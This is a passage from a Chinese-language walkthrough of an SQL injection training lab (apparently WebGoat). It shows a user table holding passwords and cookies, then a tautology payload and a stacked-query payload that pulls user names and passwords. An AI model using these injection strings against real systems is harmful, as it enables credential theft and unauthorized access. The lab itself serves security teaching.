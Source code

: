 ```
CREATE TABLE user_system_data (
    userid int not null primary key,
    user_name varchar(12),
    password varchar(10), 
    cookie varchar(30));
```
4.尝试从表中获取所有数据。

可以使用简单的永真式sql注入：
```
' or '1'='1
```
<img src="images/lab_sqli/sqli-advanced-02.png" width="480" alt="sqli-advanced-02" />


5.尝试构建额外的查询语句。

第一种方式，使用语句分割符、格外的SQL语句和注释符。

```
#例如
' or '1'='1' ; SELECT userid,user_name,password FROM user_system_data  --
```
<img src="images/lab_sqli/sqli-advanced-03.png" width="480" alt="sqli-advanced-03" />

